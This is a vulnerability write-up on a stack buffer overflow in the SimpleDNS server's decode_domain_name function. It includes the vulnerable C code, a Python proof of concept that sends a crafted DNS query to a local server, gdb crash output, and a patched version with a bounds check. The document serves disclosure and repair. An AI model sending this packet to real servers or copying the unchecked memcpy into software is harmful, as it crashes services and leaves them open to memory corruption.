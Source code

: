 # SimpleDNS

So this is a dns server from: `https://github.com/mwarning/SimpleDNS`.

Checkout `https://youtu.be/I-pqPThkB4g` if you want more info from this.

So this has a bug, which is in the `decode_domain_name function`:

```
// 3foo3bar3com0 => foo.bar.com
char* decode_domain_name(const uint8_t** buffer)
{
  char name[256];
  const uint8_t* buf = *buffer;
  int j = 0;
  int i = 0;

  while (buf[i] != 0) {
    //if (i >= buflen || i > sizeof(name))
    //  return NULL;

    if (i != 0) {
      name[j] = '.';
      j += 1;
    }

    int len = buf[i];
    i += 1;

    memcpy(name+j, buf+i, len);
    i += len;
    j += len;
  }

  name[j] = '\0';

  *buffer += i + 1; //also jump over the last 0

  return strdup(name);
}
```

The bug is with the `memcpy` call. It is copying into a fixed length stack buffer `name`, of size `256`. The size is from the dns query for the QNAME, which specifies the size of an octet. Now this value is a single byte integer (so max value `255`). This loop will copy each octet individually. There are two indices that it keeps track of, one for the `name` buffer, and another for the dns QNAME. Every time it scans in another octet, it moves the index for the `name` buffer forward equal to the length of the octet. Since it is only `256` bytes big, using multiple octets, it is possible to write past the end of the bounds, and cause a stack overflow.

Here is some poc code that I wrote for it:

```
import socket

if __name__ == "__main__":
    #print("poc")
    conn = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    conn.connect(("127.0.0.1", 9000))


    ID = b"\x12\x23"
    FLAGS = b"\x01\x00"
    QDCOUNT = b"\x00\x01"
    ANCOUNT = b"\x00\x00"
    NSCOUNT = b"\x00\x00"
    ARCOUNT = b"\x00\x00"

    HEADER = ID + FLAGS + QDCOUNT + ANCOUNT + NSCOUNT + ARCOUNT

    QNAME = b"\xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff\xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff\x00"
    QTYPE = b"\x00\x01"
    QCLASS = b"\x00\x01"

    QUESTION = QNAME + QTYPE + QCLASS

    PACKET = HEADER + QUESTION

    conn.send(PACKET)
```

When we run the server:

```
$    gdb ./main
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
87 commands loaded for GDB 9.1 using Python engine 3.8
[*] 5 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./main...
(No debugging symbols found in ./main)
gef➤  r
Starting program: /Hackery/not_ready_to_die/SimpleDNS/vuln/main
Listening on port 9000.
```

Send the poc in a separate terminal:
```
$    python3 poc.py
```

We see that we get a stack overflow:
```
*** stack smashing detected ***: terminated

Program received signal SIGABRT, Aborted.
__GI_raise (sig=sig@entry=0x6) at ../sysdeps/unix/sysv/linux/raise.c:50
50    ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x00007ffff7fb7540  →  0x00007ffff7fb7540  →  [loop detected]
$rcx   : 0x00007ffff7e0a18b  →  <raise+203> mov rax, QWORD PTR [rsp+0x108]
$rdx   : 0x0               
$rsp   : 0x00007fffffffd3d0  →  0x0000000000000000
$rbp   : 0x00007fffffffd750  →  0x00007ffff7f7e07c  →  "*** %s ***: terminated\n"
$rsi   : 0x00007fffffffd3d0  →  0x0000000000000000
$rdi   : 0x2               
$rip   : 0x00007ffff7e0a18b  →  <raise+203> mov rax, QWORD PTR [rsp+0x108]
$r8    : 0x0               
$r9    : 0x00007fffffffd3d0  →  0x0000000000000000
$r10   : 0x8               
$r11   : 0x246             
$r12   : 0x00007fffffffd650  →  0x0000000000000000
$r13   : 0x20              
$r14   : 0x00007ffff7ffb000  →  0x202a2a2a00001000
$r15   : 0x1               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd3d0│+0x0000: 0x0000000000000000     ← $rsp, $rsi, $r9
0x00007fffffffd3d8│+0x0008: 0x00000000001c16a0
0x00007fffffffd3e0│+0x0010: 0x00000000001c16a0
0x00007fffffffd3e8│+0x0018: 0x0000003000000008
0x00007fffffffd3f0│+0x0020: 0x00007fffffffd920  →  "ffffffffffffffffffffffffffffffffffffffffffffffffff[...]"
0x00007fffffffd3f8│+0x0028: 0x00007fffffffd860  →  "ffffffffffffffffffffffffffffffffffffffffffffffffff[...]"
0x00007fffffffd400│+0x0030: 0x0000000000000010
0x00007fffffffd408│+0x0038: 0x0000000400000001
──────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7e0a17f <raise+191>      mov    edi, 0x2
   0x7ffff7e0a184 <raise+196>      mov    eax, 0xe
   0x7ffff7e0a189 <raise+201>      syscall
 → 0x7ffff7e0a18b <raise+203>      mov    rax, QWORD PTR [rsp+0x108]
   0x7ffff7e0a193 <raise+211>      xor    rax, QWORD PTR fs:0x28
   0x7ffff7e0a19c <raise+220>      jne    0x7ffff7e0a1c4 <__GI_raise+260>
   0x7ffff7e0a19e <raise+222>      mov    eax, r8d
   0x7ffff7e0a1a1 <raise+225>      add    rsp, 0x118
   0x7ffff7e0a1a8 <raise+232>      ret    
──────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "main", stopped 0x7ffff7e0a18b in __GI_raise (), reason: SIGABRT
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7e0a18b → __GI_raise(sig=0x6)
[#1] 0x7ffff7de9859 → __GI_abort()
[#2] 0x7ffff7e543ee → __libc_message(action=do_abort, fmt=0x7ffff7f7e07c "*** %s ***: terminated\n")
[#3] 0x7ffff7ef6b4a → __GI___fortify_fail(msg=0x7ffff7f7e064 "stack smashing detected")
[#4] 0x7ffff7ef6b16 → __stack_chk_fail()
[#5] 0x555555555c8d → decode_domain_name()
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  bt
#0  __GI_raise (sig=sig@entry=0x6) at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff7de9859 in __GI_abort () at abort.c:79
#2  0x00007ffff7e543ee in __libc_message (action=action@entry=do_abort, fmt=fmt@entry=0x7ffff7f7e07c "*** %s ***: terminated\n") at ../sysdeps/posix/libc_fatal.c:155
#3  0x00007ffff7ef6b4a in __GI___fortify_fail (msg=msg@entry=0x7ffff7f7e064 "stack smashing detected") at fortify_fail.c:26
#4  0x00007ffff7ef6b16 in __stack_chk_fail () at stack_chk_fail.c:24
#5  0x0000555555555c8d in decode_domain_name ()
#6  0x6666666666666666 in ?? ()
#7  0x6666666666666666 in ?? ()
#8  0x6666666666666666 in ?? ()
#9  0x6666666666666867 in ?? ()
.    .    .
```

So to patch it, I made several changes. Effectively I added a check, to see if there will be an overflow. On Top of that, I made some changes to the functions that call `decode_domain_name` in order to see if there is an overflow issue, and deal with it, but you can checkout the patched code if you want to see that:

```
// 3foo3bar3com0 => foo.bar.com
char* decode_domain_name(const uint8_t** buffer)
{
  char name[256];
  const uint8_t* buf = *buffer;
  int j = 0;
  int i = 0;

  while (buf[i] != 0) {
    //if (i >= buflen || i > sizeof(name))
    //  return NULL;

    if (i != 0) {
      name[j] = '.';
      j += 1;
    }

    int len = buf[i];
    i += 1;

    if ((j + len) >= 256) {
      // OVERFLOW ISSUE
      return OVERFLOW_QNAME;
    }

    memcpy(name+j, buf+i, len);
    i += len;
    j += len;
  }

  name[j] = '\0';

  *buffer += i + 1; //also jump over the last 0

  return strdup(name);
}
```

And when we run the patched version, we see that the poc is no longer effective at crashing it.
